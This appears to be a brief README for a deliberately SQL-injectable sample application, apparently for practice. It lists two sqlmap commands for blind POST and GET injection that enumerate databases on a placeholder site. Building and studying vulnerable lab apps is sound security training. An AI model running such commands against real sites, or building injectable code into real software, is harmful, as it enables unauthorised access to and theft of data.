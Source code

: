 # SQL-injection
Sample application the SQL injection vulnerablity. Coded by Xale


sqlmap payload ( blind ) : sqlmap -u "site/index.php" --method="POST" --data="veri=asd" --dbs

sqlmap payload ( get ) : sqlmap -u "site/get.php?id=1" --batch --dbs
